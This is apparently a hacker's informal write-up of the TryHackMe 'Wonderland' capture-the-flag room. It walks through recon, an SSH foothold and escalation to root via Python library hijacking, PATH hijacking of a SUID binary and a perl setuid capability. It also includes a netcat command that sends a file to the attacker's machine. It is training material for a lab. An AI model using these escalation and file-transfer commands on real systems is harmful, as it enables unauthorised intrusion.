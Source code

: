 # Wonderland

[Play](https://tryhackme.com/room/wonderland)

## Recon

```
❯ nmap -script=default -sV -A -T4 10.10.133.60
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-26 21:51 EST
Nmap scan report for 10.10.133.60
Host is up (0.24s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.75 seconds
```

```
❯ gobuster dir -u 10.10.133.60 -w "/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt" -x "txt,html,php"
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.133.60
[+] Threads:        10
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt,html,php
[+] Timeout:        10s
===============================================================
2021/02/26 21:50:59 Starting gobuster
===============================================================
/index.html (Status: 301)
/img (Status: 301)
/r (Status: 301)
```

In `/img/` i first tried downloading the images and doing `strings`, I could not find anything interesting. Onto `/r/`. It says 

![](https://i.imgur.com/WDNs790.png)


Interesting. However, source shows nothing special here, and now I am stuck. But it does ask to go *somewhere*. On a pure whim, I did:

`http://10.10.133.60/r/a/b/b/i/t/`

very nice. One can also run gobuster with the url: `http://10.10.133.60/r/` and keep on getting the letters.

![](https://i.imgur.com/wXwyzP3.png)

So now we want to go to the left. How? Well lets do `http://10.10.133.60/r/a/b/b/i/`

![](https://i.imgur.com/EYBLHOF.png)

The story continues!

![](https://i.imgur.com/4J1i4TS.png)

After looking at some more, I realise: wait ... I've been going in the opposite direction! To quote:

> "Oh, you’re sure to do that," said the Cat, "if you only walk long enough."

So we must go on ... but where? I don't know. 

I was stuck for a while, and then stumbled upon the fact that its ssh `username:password`. "Open the door" makes sense now lmao.

## Foothold

I'm in!

```
alice@wonderland:~$ ls
root.txt  walrus_and_the_carpenter.py
alice@wonderland:~$ cat root.txt
cat: root.txt: Permission denied
alice@wonderland:~$ whoami
alice
alice@wonderland:~$ pwd
/home/alice
```

Okay so the walrus thing is apparently a poem. The script is supposed to spew 10 random lines. very helpful.


```
alice@wonderland:/home$ ls
alice  hatter  rabbit  tryhackme
alice@wonderland:/home$ cd rabbit/
-bash: cd: rabbit/: Permission denied
alice@wonderland:/home$ cd hatter/
-bash: cd: hatter/: Permission denied
alice@wonderland:/home$ cd tryhackme/
-bash: cd: tryhackme/: Permission denied
```

I tried locating `user.txt`, but I can't `locate` anything. Looking at the hint on TryHackMe, it could be in `/root/user.txt`. It is!

```
rabbit@wonderland:/home/rabbit$ cat /root/user.txt
thm{:stonks:}
```

## Priv Esc

We may need to get into the rabbit one. Meanwhile, let's check what we can sudo:

```
alice@wonderland:~$ sudo -l
[sudo] password for alice: 
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

Ah so we can execute the script as rabbit. `alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`

This means we can spawn a shell as rabbit!

But ... we do not have any permissions to write the file. So how? Well, this is something called **python library hijacking**. Take a wild guess to what we are going to do.

Yeah, create a file called `random.py`, essentially overriding the actual random library. Lesgooo!

`random.py` looks as: `import pty; pty.spawn("/bin/bash")`. easy.

Executing, we have:
```
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py 
rabbit@wonderland:~$ 
```

YES! okay so we see:
```
rabbit@wonderland:/home/rabbit$ ls
teaParty
```

which has a set bit ...!?

```
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Sat, 27 Feb 2021 05:19:12 +0000
Ask very nicely, and I will give you some tea while you wait for him

Segmentation fault (core dumped)
```

This may include some reverse engineering. Anyways, linpeas gave us this:

```
[+] Sudo version
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version                                                         
Sudo version 1.8.21p2 
```

However, 

```
rabbit@wonderland:/home/rabbit$ sudo -u#-1 /bin/bash
sudo: unknown user: #-1
sudo: unable to initialize policy plugin
```

So, back to reverse engineering it is! I wanted to start off with `strings`, but it does not want to work, since strings is not present on that machine. So, I need to transfer the file to my machine, then extract out the information I need.

For this, we start `nc` on both; 

`rabbit@wonderland:/home/rabbit$ nc 10.8.150.214 1234 < teaParty`

Explaination: netcat tries to connect to the IP `10.8.150.214` on the port `1234` using `TCP`, and takes in the file as the input.

`❯ nc -lnvp 1234 > temp`

Explaination: netcat *listens* on the port `1234` on your machine, outputting all the contents into a file called `temp`.

Ok! Doing strings, we see: `/bin/echo -n 'Probably by ' && date --date='next hour' -R`

We can make use of the `date` library in C. Also, no matter our input, we get `Segmentation fault (core dumped)`, as its in the string. Very sneaky! Now, we want it to execute the `date` file. We can just write: `bash` in it and make it executable by using `chmod +x date`.

```
rabbit@wonderland:/home/rabbit$ PATH=/home/rabbit:$PATH ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ 
```

:D Inside of `/home/hatter`, we get

```
hatter@wonderland:/home/hatter$ cat password.txt 
<PASSWORD>
```

Now, we can login as hatter normally, instead of this convoluted mess. 

(We are still in alice's random's rabbit's teaParty shell lmao)

Okay take a deep breath in. Fresh shell! However ...

```
hatter@wonderland:~$ sudo -l
[sudo] password for hatter: 
Sorry, user hatter may not run sudo on wonderland.
```

SMH.

Time for linpeas again!

```
❯ scp ~/Desktop/Tools/linpeas.sh hatter@10.10.27.106:~
hatter@10.10.27.106's password: 
linpeas.sh                    100%  313KB 188.7KB/s   00:01    
```

Okay so the below pops out, talking about suid bit setting capabilities:

```
Files with capabilities:
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

Perl looks tasty, so [gtfobins](https://gtfobins.github.io/gtfobins/perl/#capabilities) tells us the following.

`cp $(which perl) .`

```
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# whoami
root
```

EASY!
